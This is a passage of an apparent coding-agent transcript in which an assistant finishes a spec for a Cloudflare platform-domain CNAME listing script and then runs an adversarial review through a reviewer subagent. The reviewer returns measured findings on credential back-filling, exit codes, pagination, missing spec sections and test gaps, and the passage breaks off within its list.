  "new_string": "Expected: 21 passed (8 from Task 1 + 13 here — `test_resolve_config_value_reads_the_environment`\nis parametrized over two marker forms)."
}
```

### ↳ Tool result

```
The file /workspace/development/2026-07-30-platform-domain-util2/SPEC.md has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/development/2026-07-30-platform-domain-util2/SPEC.md",
  "old_string": "Expected: 31 passed.",
  "new_string": "Expected: 32 passed (21 + 11 here — `test_collect_entries_skips_everything_that_is_not_a_platform_cname`\nis parametrized over five records)."
}
```

### ↳ Tool result

```
The file /workspace/development/2026-07-30-platform-domain-util2/SPEC.md has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/development/2026-07-30-platform-domain-util2/SPEC.md",
  "old_string": "Expected: 34 passed.",
  "new_string": "Expected: 35 passed (32 + 3 here)."
}
```

### ↳ Tool result

```
The file /workspace/development/2026-07-30-platform-domain-util2/SPEC.md has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/development/2026-07-30-platform-domain-util2/SPEC.md",
  "old_string": "Expected: 37 passed.",
  "new_string": "Expected: 38 passed (35 + 3 here)."
}
```

### ↳ Tool result

```
The file /workspace/development/2026-07-30-platform-domain-util2/SPEC.md has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"TBD\\|TODO\\|FIXME\\|fill in\\|implement later\\|Similar to Task\" development/2026-07-30-platform-domain-util2/SPEC.md || echo \"no placeholders found\"; echo \"--- headings:\"; grep -n \"^## \\|^### Task\" development/2026-07-30-platform-domain-util2/SPEC.md",
  "description": "Placeholder scan and outline"
}
```

### ↳ Tool result

```
no placeholders found
--- headings:
24:## Global Constraints
44:## 1. What this is and why
57:## 2. Normative behavior
256:## 3. Module layout of the script
274:## 4. Test plan
294:## Task 1: Scaffold, tooling, and the match rule
517:## Task 2: Credential resolution
745:## Task 3: The fold
899:## Task 4: The atomic write
1004:## Task 5: The walk and the CLI
1219:## Task 6: Documentation and the live verification run
1324:## 5. NOT in scope
1353:## 6. Files created / modified (complete list)
1366:## 7. Verification
1373:## 8. Deletion checklist (after Pantheon's CDN migration)
1388:## 9. First live run
```

## Assistant

Spec written to `development/2026-07-30-platform-domain-util2/SPEC.md` (1,390 lines: normative behavior §§1–4, six TDD tasks with complete code, then scope/deletion/verification §§5–9). Self-review run — no placeholders, every requirement R1–R8 maps to a task, signatures consistent across tasks.

**One finding that changed the design, measured not assumed.** The `cloudflare` SDK back-fills any credential left `None` from the environment, and its `auth_headers` returns the *first* of email → key → token, and only that one. So:

```python
>>> Cloudflare(api_token="tok-123").api_email
'…@umich.edu'          # from ambient $CLOUDFLARE_EMAIL, never asked for
```

A token-configured client on a host exporting `CLOUDFLARE_EMAIL` authenticates as that email and **never sends the token**. The new script pins all four fields (§R2a). **`plugin/cloudflare/client.py` has the same latent defect** — dormant only because your config leaves `api_token` commented out and passes email+key explicitly. Uncommenting `api_token` would silently authenticate as the wrong principal. I left fixing it out of scope (§5.7) since it's a main-program change with its own test surface, but you should know it's there.

Other decisions worth your eye before implementation:

- **Zero zones is fatal** (copied from `fqdns.py`): a missing `DNS:Read` scope and a genuinely empty org write an identical empty file, and a silently-empty file is the one failure mode this script can't have.
- **`enabled` is not consulted** — you ran the script deliberately.
- The mini credential resolver **rejects** any non-`env` substitution (e.g. `<{secret aws …}`) rather than passing the literal through as an API token, and tokenizes with `shlex.split()` rather than the engine's punctuation-splitting `shlex.shlex()` — documented divergence, agrees on every marker the main program can actually resolve.

`prompts/new-feature-standards.md` says to commit the spec before implementation ("without a committed baseline there is no diff"), but CLAUDE.md says commit only when asked — so I've held off. Say the word and I'll commit it.

Then, execution: **subagent-driven** (fresh `psh-implementer` per task, `psh-reviewer` between tasks — my recommendation, and pre-authorized by CLAUDE.md) or **inline** in this session?

## User

Follow the instructions in `prompts/adversarial-review.md` to perform an adversarial review on the plan/spec doc(s).

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/prompts/adversarial-review.md"
}
```

### ↳ Tool result

```
1	# Adversarial Review
2	
3	A **standards overlay** for reviewing a spec or plan document. This file owns the *process*;
4	the *bar* lives in the Spine.
5	
6	> **Read `prompts/directives.md` first** — the Posture, the 14 Prime Directives, the
7	> Engineering Preferences, and the spec quality bar, in one copy. This file does not restate
8	> them. It used to, and the copies **drifted**: PD#11 gained a `/domain-modeling` mandate in
9	> one file and not the other, with nothing saying which governed — and the reviewer read the
10	> stale one. Directives are cited here **by number**.
11	
12	Use this for defects in a **document**. It is NOT for runtime failures: those go to
13	`prompts/debugging-standards.md` and `/diagnosing-bugs`, which gates on a command that goes
14	red on the bug's code path — something that cannot exist for a spec defect.
15	
16	**Step 1: Dispatch reviewer subagent**
17	
18	Dispatch with **`subagent_type: "psh-reviewer"`** (`.claude/agents/psh-reviewer.md`). That
19	agent carries the read list, so the standards reach the reviewer as configuration rather
20	than as prose you have to remember to paste. Its fresh context — seeing only the artifact,
21	never the brainstorming or writing-plans conversation — is what makes the review independent.
22	
23	Give the subagent:
24	
25	- The file path(s) of the document(s) just written: spec docs, plan docs, and my original
26	  brainstorming request.
27	- This instruction: *"Read the document(s), independently verify load-bearing claims (the
28	  facts the spec/plan rests on) rather than trusting them, and review on the **ten**
29	  dimensions below. For each dimension, note PASS or list specific issues with suggested
30	  fixes."*
31	
32	**Dimensions — ten, exhaustive:**
33	
34	1. **Correctness** — Are there any claims that did not verify? Gaps?
35	2. **Completeness** — Are all requirements addressed? Missing edge cases?
36	3. **Consistency** — Do parts of the document(s) agree with each other? Contradictions?
37	4. **Clarity** — Could an engineer implement this without asking questions? Ambiguous language?
38	5. **Feasibility** — Can this actually be built with the stated approach? Hidden complexity?
39	6. **Maintainability** — Will the spec/plan cause problems 6 months down the road? Excessive
40	   labor or costs?
41	7. **Robustness/fragility** — Are all edge cases solid? Is the spec/plan resilient to
42	   failures, and to evolution/changes in external systems?
43	8. **Security** — Is there anything that presents an opportunity to a threat actor? AuthN/
44	   AuthZ, TOCTOU, sanitization, injection, other?
45	9. **Testing** — Are all appropriate types of test present? **Has each acceptance criterion
46	   been run, and can it go red?** (PD#14.)
47	10. **Observability** — Is appropriate diagnostic information output at each verbosity level?
48	    Do output files contain appropriate/necessary information?
49	
50	Evaluate against these factors using a **checklist backed by quoted evidence** — from the
51	Spine *and* from industry best practice — **not** a self-graded number. For each factor, note
52	how important it is relative to the others.
53	
54	The subagent returns:
55	
56	- **PASS** if no issues were identified.
57	- Otherwise a numbered list of issues with dimension, description, and proposed fix(es).
58	
59	**Step 2: Fix and re-dispatch**
60	
61	1. For each simple issue with an obvious, low-risk fix, fix it in the document on disk.
62	2. For every other issue — and **always** when the fix is not obvious, contradicts a
63	   previously made decision, or would create new problems for me or for users of the
64	   software — interview me with the `/grilling` skill until we reach a shared understanding.
65	   Present multiple options, and ask about technical implementation, expansion
66	   opportunities, edge cases, concerns, tradeoffs, and other potential oversights. Don't ask
67	   obvious questions; dig into the hard parts I might not have considered.
68	
69	If no issues required interviewing me, end the review here. Otherwise re-dispatch the
70	reviewer with the updated document — **maximum 3 iterations total**.
71	
72	**Before each re-dispatch, run the document's acceptance criteria and paste the real
73	output.** Fixes collide: one round's fix routinely breaks another round's criterion, and an
74	unrun criterion is exactly the instrument PD#14 forbids. This step is not optional and it is
75	the cheapest defect-catcher in the loop.
76	
77	**Convergence guard:** if the reviewer returns the same issues on consecutive iterations (the
78	fix didn't resolve them, or the reviewer disagrees with the fix), stop the loop and persist
79	those issues as "Reviewer Concerns" in the document rather than looping further.
80	
81	If the subagent fails, times out, or is unavailable — skip the review loop entirely. Tell me:
82	"Spec review unavailable — presenting unreviewed doc." The document is already written to
83	disk; the review is a quality bonus, not a gate.
84	
85	**Step 3: Report**
86	
87	After the loop completes (PASS, max iterations, or convergence guard):
88	
89	1. Tell me the result:
90	   a. Summary: "Your doc survived N rounds of adversarial review. M issues caught and fixed.
91	      Quality score: X/10."
92	   b. Show the full reviewer output.
93	2. If issues remain after max iterations or convergence, add a **"## Reviewer Concerns"**
94	   section to the document listing each unresolved issue.
95	
96	**Record the author's own corrected claims in the document**, not just the fixes. A spec that
97	had to correct its own load-bearing facts should say which ones and how they were caught —
98	that record is what teaches the next session where this project's verification actually
99	fails, and it is the evidence PD#14 is earned rather than asserted.
100
```

## Assistant

Using `prompts/adversarial-review.md`. Dispatching the reviewer now — fresh context, sees only the artifacts.

### ⚙ Tool call: `Agent`

```json
{
  "subagent_type": "psh-reviewer",
  "description": "Adversarial review of the spec",
  "run_in_background": false,
  "model": "opus",
  "prompt": "Perform an adversarial review of a spec/plan document, per `prompts/adversarial-review.md` Step 1.\n\n**Documents to review:**\n- `/workspace/development/2026-07-30-platform-domain-util2/SPEC.md` — the spec + implementation plan just written (this is the artifact under review)\n- `/workspace/development/2026-07-30-platform-domain-util2/PROMPT.md` — the user's original feature request, which the spec must satisfy\n- `/workspace/development/2026-07-30-platform-domain-util2/research.md` — background research the spec cites (the downstream rewrite that consumes this script's output)\n\n**Your instruction:** Read the document(s), independently verify load-bearing claims (the facts the spec/plan rests on) rather than trusting them, and review on the ten dimensions below. For each dimension, note PASS or list specific issues with suggested fixes.\n\n**Dimensions — ten, exhaustive:**\n1. **Correctness** — Are there any claims that did not verify? Gaps?\n2. **Completeness** — Are all requirements addressed? Missing edge cases?\n3. **Consistency** — Do parts of the document(s) agree with each other? Contradictions?\n4. **Clarity** — Could an engineer implement this without asking questions? Ambiguous language?\n5. **Feasibility** — Can this actually be built with the stated approach? Hidden complexity?\n6. **Maintainability** — Will the spec/plan cause problems 6 months down the road? Excessive labor or costs?\n7. **Robustness/fragility** — Are all edge cases solid? Is the spec/plan resilient to failures, and to evolution/changes in external systems?\n8. **Security** — Is there anything that presents an opportunity to a threat actor? AuthN/AuthZ, TOCTOU, sanitization, injection, other?\n9. **Testing** — Are all appropriate types of test present? **Has each acceptance criterion been run, and can it go red?** (PD#14.)\n10. **Observability** — Is appropriate diagnostic information output at each verbosity level? Do output files contain appropriate/necessary information?\n\nEvaluate against these factors using a **checklist backed by quoted evidence** — from the Spine (`prompts/directives.md`) *and* from industry best practice — **not** a self-graded number. For each factor, note how important it is relative to the others.\n\n**Verification matters more than reading here.** The spec makes load-bearing empirical claims that you should independently check rather than trust, including but not limited to:\n- The `cloudflare` SDK (5.4.0, installed in `.venv`) back-fills unset credential arguments from the environment, and its `auth_headers` property prefers `X-Auth-Email` over the bearer token (spec §R2a). Verify against the installed SDK source, not from memory.\n- The record objects returned by `client.dns.records.list()` carry `id`, `type`, `name`, `content`, `proxied`.\n- The marker regex `re.compile(r\"<\\{(.*?)(?<!\\\\)}\")` is copied verbatim from `psh/configuration.py`, and the marker syntax in the real config really is `<{...}` with no closing `>`.\n- `shlex.split()` vs `list(shlex.shlex(expr, posix=True))` tokenization difference, and whether the divergence the spec claims is accurate and safe.\n- The claimed ruff/pyright/tooling entries match how `find-platform-domains-dns` is actually wired (`pyproject.toml`, `.claude/hooks/ruff-check.sh`).\n- Whether the code in the plan's tasks would actually pass `ruff check` under this repo's `select = ALL` config, and pyright standard mode. Flag any rule you believe would fire that the plan has not `noqa`'d.\n- Whether the test code in the plan would actually pass as written (fixtures, imports, counts, assertions). Note the plan states expected pass counts of 8 / 21 / 32 / 35 / 38 cumulatively — check the arithmetic against the tests actually written in the tasks.\n\nYou may run read-only commands (`python -c`, `grep`, reading files, `uvx ruff@0.15.22 check --stdin-filename ...`) to verify. **Do not modify any file in the repo** — you are reviewing, not implementing. If you want to lint a code sample, write it to a scratch file under `/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/` rather than into the repo.\n\nReturn **PASS** if no issues were identified; otherwise a numbered list of issues, each with its dimension, a description, and proposed fix(es). Rank most-severe first. Cite the directives you applied by number with a verbatim quote, grep-checkable against `prompts/directives.md`."
}
```

### ↳ Tool result

```
## Verification summary (what I ran)

Before the findings: I re-derived the spec's load-bearing empirical claims rather than accepting them. **These verified:**

| Claim | Result |
|---|---|
| SDK back-fills unset creds from env; `auth_headers` prefers email→key→token | **TRUE** — `cloudflare/_client.py:__init__` reads `CLOUDFLARE_API_TOKEN/_API_KEY/_EMAIL/_API_USER_SERVICE_KEY`; `auth_headers` returns the first of `_api_email`/`_api_key`/`_api_token`/`_user_service_key` **and only that one**. Measured request headers: unpinned `Cloudflare(api_token="tok-123")` with ambient `CLOUDFLARE_EMAIL` → `{'x-auth-email': 'ambient@example.edu'}`; with the spec's pin → `{'authorization': 'Bearer tok-123'}` |
| `plugin/cloudflare/client.py` has the same latent defect, not live today | **TRUE** — `Cloudflare(api_token=api_token)` unpinned; measured email+key path with ambient `CLOUDFLARE_API_TOKEN` still sends `x-auth-email`+`x-auth-key` |
| Records carry `id`/`type`/`name`/`content`/`proxied` | **TRUE** (`record_response.CNAME.model_fields`) |
| `MARKER_RE` verbatim from `psh/configuration.py`; real marker syntax is `<{…}` with no `>` | **TRUE** — `configuration.py:110`; real config: `email = "<{secret env CLOUDFLARE_EMAIL}"` |
| `shlex.split` vs `list(shlex.shlex(…, posix=True))` divergence | **TRUE** — `'env FOO some-default'` → `['env','FOO','some-default']` vs `['env','FOO','some','-','default']` |
| `plugin/env` registers exactly the 4 env forms; `get_env` uses `name in os.environ` | **TRUE** — the copy's set-but-empty semantics match exactly |
| Tooling entries match reality | **TRUE** — `pyproject.toml:131-138`, `:145`, `ruff-check.sh:79-84`; per-file-ignores keyed on the given path confirmed with an absolute path |
| The plan's script passes `ruff check` (`select = ALL`) | **TRUE** — only T201 fires, which the plan's entry covers. I proved the config was live by deleting one `noqa` and watching PTH105 fire |
| The plan's script passes pyright standard | **TRUE** — `0 errors, 0 warnings` against the repo venv |
| Test counts 8 / 21 / 32 / 35 / 38 | **TRUE** — I transcribed all five tasks' tests verbatim and ran them: **38 passed** |

That is a materially better verification record than most specs here. The findings below are what survived.

---

## 1. PD#8 violated outright — the spec contains zero diagrams

**Dimension:** Clarity / Completeness. **Severity: high** (it is a Prime Directive, stated as absolute).

PD#8, verbatim: *"**Diagrams are mandatory in the design.** No non-trivial flow ships undiagrammed in the spec — ASCII art for every new data flow, state machine, processing pipeline, dependency graph, and decision tree."*

Evidence — `grep -c '──\|│\|-->' SPEC.md` → **0**. The immediate precedent, `/workspace/development/2026-07-28-platform-domain-util/SPEC.md`, scores **34** on the same grep and carries an explicit sweep-flow diagram at §6.1.

There is a non-trivial pipeline here: `config → creds → accounts → zones → lazy (zone_id, record) generator → fold → warnings → atomic write → summary`, with two error funnels (`CloudflareError`→`StartupError`, `KeyboardInterrupt`) crossing it.

**Fix:** add an ASCII pipeline diagram to §2 or §3 showing the generator seam, both error funnels, and where the warnings are emitted relative to the write (R7's "before the file is written" ordering is exactly the kind of thing a diagram pins).

---

## 2. Seven spec-quality-bar sections are missing — including the one the bar calls load-bearing

**Dimension:** Completeness / Clarity. **Severity: high.**

`grep` over `SPEC.md`: `Glossary` → 0, `MUST` → 0, `NEVER` → 0, `Shadow`/`shadow` → 0, `Observability` → 0, `PD#` → 0, `Closing audit` → 0. The word `seam` appears **once**, in §5.5, and only to reject one.

Against the Spine's bar, verbatim:

- *"Glossary at top; every term of art used exactly once per concept"* — absent.
- *"MUST / SHOULD / MAY / NEVER defined and used consistently"* — absent (sibling spec §"Requirement vocabulary" has it).
- *"**Seams under test are named and agreed — in the spec, before any implementation.** This is load-bearing, not a nicety… **The spec is the only place a seam can be agreed.** … Silence is not an option a reviewer should accept."* — there is no seams section. The sibling spec has §9 "Seams under test — named and agreed" with a table.
- PD#3: *"Every flow has a happy path plus three shadows: nil input, empty/zero-length input, and upstream error. Trace all four for every new flow."* — no trace. (Sibling: §7.2 "Shadow paths (PD#3), traced".)
- PD#5: *"Observability is scope, not an afterthought."* — no observability section. (Sibling: §8.)
- *"Closing audit questions queued for after implementation."* — absent. (Sibling: §15.)
- *"'Tests are load-bearing' NEVER-block included"* — absent.

This is a regression against an artifact written for the *same* class of utility two days earlier by the same process. "It's a temporary script" is not a carve-out the Spine grants — and the PROMPT's carve-out is narrow and explicit: *"do not worry about maintainability or modularity"*, not "skip the spec bar."

**Fix:** add Glossary, Requirement vocabulary, a Seams table (the seams already exist: the fresh-per-test `SourceFileLoader` module, `os.environ` via `monkeypatch`, `tmp_path` for the write, the fake client object), a PD#3 shadow-path trace for the record fold, an Observability section, and closing audit questions.

---

## 3. R6's exit-code table is presented as exhaustive; two reachable paths exit 1 with a raw traceback (measured)

**Dimension:** Correctness / Robustness / Observability. **Severity: high.**

R6 states: *"There is deliberately **no exit 1**."* I reproduced two paths that produce exactly that.

**(a) `OSError` from the write.** Run in a mode-555 directory with the walk stubbed:

```
  File ".../find-platform-domains-cloudflare", line 295, in main
    write_json_atomic(OUTPUT_FILE, entries)
  ...
PermissionError: [Errno 13] Permission denied: '.../.platform-domains-8987k7xk.tmp'
EXIT=1
```

This lands **after** the entire multi-minute Cloudflare walk and discards all of it, with no named error. PD#1: *"Every failure mode must be visible… A failure that can happen silently is a critical defect."* PD#2: *"Never 'handle errors.' Name the specific exception class, what triggers it, what catches it, what the operator/user sees, and whether it's tested."*

**(b) `ValueError` from `shlex.split`.** Config `api_token = "<{env FOO don't}"`:

```
  File ".../find-platform-domains-cloudflare", line 78, in resolve_env_marker
    argv = shlex.split(expr)
ValueError: No closing quotation
EXIT=1
```

**(c) exit 120 is admitted in §5.4** (*"A doomed **stderr** can still produce exit 120; accepted and documented rather than guarded"*) **but is absent from the R6 table**, which reads as exhaustive. The bar: *"Every list marked exhaustive or illustrative."*

**Fix:** wrap `write_json_atomic`'s call site in `except OSError as e: raise StartupError(f"cannot write {OUTPUT_FILE}: {e}")`; catch `ValueError` in `resolve_env_marker` and re-raise as `StartupError` naming the marker; add a 120 row to R6 cross-referencing §5.4; add tests for both (the write one is one line with `monkeypatch.chdir` into a read-only dir).

---

## 4. §5.5's stated reason for skipping a `main()` test is factually false (measured)

**Dimension:** Testing. **Severity: high** (PD#14).

§5.5: *"Rejected: it would force a client-injection seam to exist for the test's benefit alone."*

That seam already exists — the `fpc` fixture loads the module **fresh per test**, so module-attribute monkeypatching is safe and free. I wrote the three tests the spec says are unaffordable and ran them:

```
tests/unit/test_main_probe.py ...                                    [100%]
3 passed in 0.17s
```

They cover exit 0 + the summary + warning ordering + the actual file contents, exit 130 + the `INTERRUPTED:` message, and exit 2 + `ERROR: cannot read`. Total: ~25 lines, no production-code change.

As specified today, **exit 130 has zero coverage anywhere** — not a unit test, not Task 5 Step 6, not Task 6. Exit 0 is only ever exercised by the live production run. PD#14: *"A green check is a claim, not evidence, until it has been shown capable of going red on the condition it guards."* Here there is not even a claim. PD#7 also applies: *"Runs are not atomic… Plan for partial states."*

**Fix:** delete §5.5 and add the three tests as Task 5 Step 1b (39–41 passing).

---

## 5. Pagination is unmentioned, unasserted, and untestable as designed

**Dimension:** Robustness / Testing. **Severity: high.**

`client.dns.records.list()` returns `SyncV4PagePaginationArray`; iterating it auto-paginates via `has_next_page()`, which (`_base_client.py:186-190`) stops **only on an empty page**, asking for `page = last+1` each time. The spec never mentions that a single `list()` call is N HTTP requests, never states why the SDK's pagination is trusted, and §4 explicitly puts it out of test scope: *"Not covered, by decision (§5.5): … `fetch_platform_cnames`'s account/zone pagination against a real client."*

Why this matters here specifically: a truncated record list produces a **silently incomplete** output file — the exact failure mode R3's zero-zones guard is written to prevent (*"a silently-empty file is exactly the failure mode this script must not have"*). And this repo has already been burned by precisely this shape: CLAUDE.md records *"the API's site-list cursor has a silent failure mode (it can return page 1 again instead of the next page); the script detects it and exits 2 rather than sweeping a truncated site list."*

The instrument problem: `FakeCloudflareClient._records` returns a plain `list`. Nothing in the suite can go red if pagination breaks. PD#14: *"Your instruments can lie."*

**Fix:** state in R3 that `list()` auto-paginates and why that is trusted for Cloudflare (page-number, not opaque cursor); make the fake return a multi-page iterator so at least the *consumption* shape is pinned; and consider logging the per-zone record count at `-v` so a truncation is visible to an operator.

---

## 6. The output drops the fields the reverse rewrite needs (`ttl`, `settings`, `comment`, `tags`)

**Dimension:** Completeness. **Severity: medium-high.**

R5 justifies adding `record_id`/`proxied` exactly this way: *"`research.md` … shows the downstream batch rewrite needs the record id for `deletes` and treats `proxied` as the load-bearing field on re-creation. Without them the rewriter must re-list every zone."*

That reasoning applies identically to fields the spec omits. `research.md` §"Reverse direction (scenario 2)" requires re-creating the original proxied CNAME. The current record's TTL, comment, tags and `settings` (e.g. `flatten_cname`) are all present on the SDK model and free to capture:

```
ttl -> typing.Union[float, typing.Literal[1]]
comment -> typing.Optional[str]
tags -> typing.Optional[typing.List[str]]
settings -> typing.Optional[cloudflare.types.dns.cname_record.Settings]
```

A rewriter that reverses using research.md's shape hardcodes `"ttl": 1` and silently discards any explicit TTL, comment, tags and CNAME-flattening setting on the way back. That is data loss caused by an omission in *this* file's contract.

**Fix:** add `ttl`, and (at minimum) `comment`/`tags`/`settings` to the R5 value object. Same first-record-wins rule. It costs four dict keys and one test assertion.

---

## 7. R2a's mechanism is described incompletely, and its test pins attribute state rather than the security property

**Dimension:** Security / Testing. **Severity: medium-high.**

R2a explains the leak entirely via `auth_headers`. There is a **second, independent** path: `Cloudflare.default_headers` (`_client.py:1168-1175`) adds

```python
"X-Auth-Key":   self.api_key   if self.api_key   is not None else Omit(),
"X-Auth-Email": self.api_email if self.api_email is not None else Omit(),
```

*on top of* `super().default_headers` (which is where `auth_headers` enters). So ambient email/key reach the wire through two routes, not one. The spec's `setattr(..., None)` fix happens to close both — but the *stated reason* only covers one, so a future maintainer "fixing it properly" by passing explicit headers would reintroduce the defect while satisfying the spec's prose and its test.

The test compounds this. `test_cloudflare_client_ignores_ambient_credentials_the_config_did_not_supply` asserts `client.api_email is None`, `client.api_key is None`, `client.user_service_key is None`. That is *implementation state*, not the property that matters. The property is: **the request carries `Authorization: Bearer …` and no `X-Auth-*`.** Measured, that assertion is available:

```
CASE A (ambient EMAIL only, api_token given): {'x-auth-email': 'ambient@example.edu'}
CASE B (pinned):                              {'authorization': 'Bearer tok-123'}
```

Related: `pyproject.toml` declares the dep as bare `"cloudflare"` — **unpinned**. The whole R2a mitigation depends on SDK internals (`api_token`/`api_key`/`api_email`/`user_service_key` being live attributes read at header-build time). An SDK minor bump that captures credentials at construction leaves the attribute assertions green and the defect back. PD#14 again, and PD#6: *"New code paths get threat-modeled."*

**Fix:** (a) extend R2a to name both header paths; (b) change the test to assert on `client.auth_headers` **and** `client.default_headers` (both are public and stable API surface), e.g. `assert client.auth_headers == {"Authorization": "Bearer tok-123"}` plus `assert isinstance(client.default_headers["X-Auth-Email"], Omit)`; (c) state in the spec that this pin is SDK-version-sensitive and name 5.4.0 as the measured version (the docstring does; the test does not).

---

## 8. Deviation from an explicit PROMPT requirement is not surfaced for approval, and one part of it is not surfaced at all

**Dimension:** Completeness / Consistency. **Severity: medium.**

PROMPT.md line 8: *"(The JSON should contain the same fields/stucture as `./fqdns.json`)"*.

- R5 **adds** two fields with good reasoning — but never names the requirement it is departing from. A deviation from a written user requirement should be flagged as a deviation, not folded into a bullet.
- R5 also says *"Keys are `normalize()`d"*. `fqdns.py:117-118` keys by **raw `record.name`**. That structural difference is never mentioned anywhere in the spec, and it silently weakens Task 6 Step 4's cross-check, which computes `proxied_here - set(old)` — normalized keys differenced against raw keys. Any casing/trailing-dot difference from Cloudflare shows up as a phantom "missing from fqdns.json" entry that the operator is told to treat as a red flag (*"A long unexplained list means the walk is wrong — stop and investigate"*).

**Fix:** add a short "Divergences from the PROMPT" subsection listing both, with the reasoning; and normalize both sides in the Task 6 Step 4 script.

---

## 9. Config credential values are never type-checked — a finding already adjudicated on the sibling spec

**Dimension:** Robustness. **Severity: medium.** *(Convergence: this is the same defect class as the sibling spec's whole-branch review finding C1.)*

R2: *"A non-string value (int, bool) passes through untouched; only `str` values are scanned."* Then `if api_token:` accepts it. Measured:

```python
Cloudflare(api_token=True)   # with the R2a pin applied → {'Authorization': 'Bearer True'}
```

`api_token = true` in TOML therefore produces a confusing 401 — the *precise* failure mode R2 invokes to justify rejecting a passed-through literal marker: *"a literal `"<{secret aws cloudflare/token}"` sent as an API token would produce a confusing 401."* The rule is applied to one input shape and not the other.

The sibling spec already litigated this: *"The value MUST be type-checked as a `str` where it is read (amended, whole-branch review C1) — TOML is a typed format, so `org_id = 12345` otherwise reaches `urllib.parse.quote` a whole session later as an unnamed `TypeError` at exit 1."*

**Fix:** in `cloudflare_client`, after `value(key)`, `if v is not None and not isinstance(v, str): raise StartupError(f"{config_path} [Cloudflare].{key} must be a string, got {type(v).__name__}")`. One test.

---

## 10. Task 1 Step 7 is a green check that cannot go red

**Dimension:** Testing. **Severity: medium** (PD#14, small blast radius but textbook).

Step 7: *"**Verify the lint gate sees the new file** — Run: `uvx ruff@0.15.22 check find-platform-domains-cloudflare` — Expected: `All checks passed!`"*

At the end of Task 1 the script contains a docstring, imports, four constants, one exception class and two pure functions — **no `print` call**. T201 is the only rule the Step 5 `per-file-ignores` entries suppress. So Step 7 prints `All checks passed!` identically whether or not Step 5 was done at all. The step verifies nothing about the thing it names.

PD#14 corollary, verbatim: *"watch the test fail for the *right reason*."*

**Fix:** move the "lint gate sees the new file" verification to Task 5 (after the `print`s exist), or make Step 7 a two-part check: run ruff once with the entries and once with them commented out, and show T201 firing.

---

## 11. Task 1 Step 2's red-check expectation is wrong

**Dimension:** Correctness (of the plan's own instrument). **Severity: low-medium.**

Step 2: *"Expected: collection ERROR — `FileNotFoundError` for the script path (it does not exist yet)."*

`SCRIPT` is only a `Path` at module level; nothing touches the filesystem until the `fpc` fixture runs. Measured with the Task-1 test file against a missing script:

```
ERROR tests/unit/t.py::test_is_platform_domain_rejects_everything_else[...]
1 warning, 8 errors in 0.10s
```

Eight **fixture errors at test time**, collection succeeded. An implementer who sees this and does not get a "collection ERROR" may reasonably think something is wrong.

**Fix:** *"Expected: 8 errors — `FileNotFoundError` raised by the `fpc` fixture; collection itself succeeds."*

---

## 12. Observability is thin and inconsistent with both the repo and the spec's own R3

**Dimension:** Observability. **Severity: medium.** PD#5, verbatim: *"New code paths need structured logging at the right verbosity (`-v`/`-vv`/`-vvv`), failures surfaced actionably to the operator."*

Concretely:

- **One boolean `-v`.** The repo's convention (and PD#5's literal text) is `-v`/`-vv`/`-vvv`. There is no `-vv` level that would show, say, per-zone record counts — the one thing that would make a truncated pagination visible (finding 5).
- **No runtime estimate anywhere.** The sibling utility documents "~38 minutes" in both its spec and CLAUDE.md. This one walks *every record in every zone* with no server-side filter, and neither the spec, the `--help` text, nor the draft CLAUDE.md subsection tells the operator whether that is 20 seconds or 20 minutes. Without `-v`, the run is completely silent for that whole duration.
- **The summary omits the decision-relevant number.** `Wrote 12 platform-domain CNAMEs from 43 zones in 2 account(s)` does not say **how many are DNS-only** — which is the entire reason this script exists next to `fqdns.json`. Task 6 Step 3 then computes it in an ad-hoc heredoc. Put it in the summary.
- **R3 promises a zero-match message the code does not have.** R3: *"Zero matching CNAMEs is **not** fatal — it writes `{}` and says so on stderr."* The Task 5 `main()` emits only `Wrote 0 platform-domain CNAMEs …`. `fqdns.py:138-142` sets the precedent of a loud `ATTENTION:` for exactly this state. Either amend R3 or add the message.
- **No rule against printing API response bodies.** The sibling spec §8 has one verbatim: *"**NEVER print an API response body**, at any verbosity, and never include one in an error."* Here `StartupError(f"listing accounts/zones failed: {e}")` interpolates the SDK's exception, which for an `APIStatusError` carries the response body.

---

## 13. A live production run and six `git commit` steps are dispatched to a subagent with no approval STOP

**Dimension:** Feasibility / process. **Severity: medium.**

Task 6 Step 2 runs `./find-platform-domains-cloudflare -v` against **production Cloudflare with production credentials**, then Step 5 says *"Record the measured result in §9 of this SPEC, then commit."* Every task ends in a `git commit`.

Two conflicts:

- The bar: *"Human approval gates are structural STOPs (exact-phrase unlock), not list items."* A live production API call from an agent-executed plan is precisely the place for one. (It is read-only, which is why this is medium and not high.)
- CLAUDE.md § Dispatching subagents, verbatim: *"it authorizes the *dispatch*, not the acts a subagent performs — commits, branches, pushes, and destructive operations still follow the rules elsewhere in this file (**Other / General**: commit only when asked, branch only when directed), and a subagent inherits that, so say so in the brief."* The plan instructs the subagent to commit six times without saying anything about that rule.

**Fix:** convert Task 6 Step 2 into a STOP with an exact-phrase unlock; add a one-line note at the top of the plan that the `git commit` steps are the operator's standing instruction for this plan (or strip them).

---

## 14. A factually wrong explanatory comment ships in the reference implementation

**Dimension:** Correctness. **Severity: low.**

`collect_entries` (Task 3 Step 3):

```python
# A record type that cannot be proxied has no `proxied` field at all.
"proxied": bool(getattr(dns_record, "proxied", False)),
```

Measured against the installed SDK:

```
MX has proxied: True
TXT has proxied: True
NS has proxied: True
```

Every response model carries `proxied` (`Optional[bool]`). The `getattr` default is defensive against the *test fakes*, not against the SDK. PD#8's closing clause generalizes: *"a stale diagram is worse than none."*

**Fix:** *"`proxied` is `Optional[bool]` on every record model; `getattr` with a default keeps the fold total for a `None` and for the namespace fakes."*

---

## 15. Minor items (grouped)

**Dimension:** various. **Severity: low.**

- **"stdout is unused" is false.** `--help` and argparse usage go to stdout — Task 5 Step 6 even expects *"usage text on stdout"*. CLAUDE.md already documents this carve-out for the sibling (*"argparse writes its own usage and `--help` text before that guard exists and outside every handler"*). Restate it here rather than letting the module docstring assert something the program contradicts.
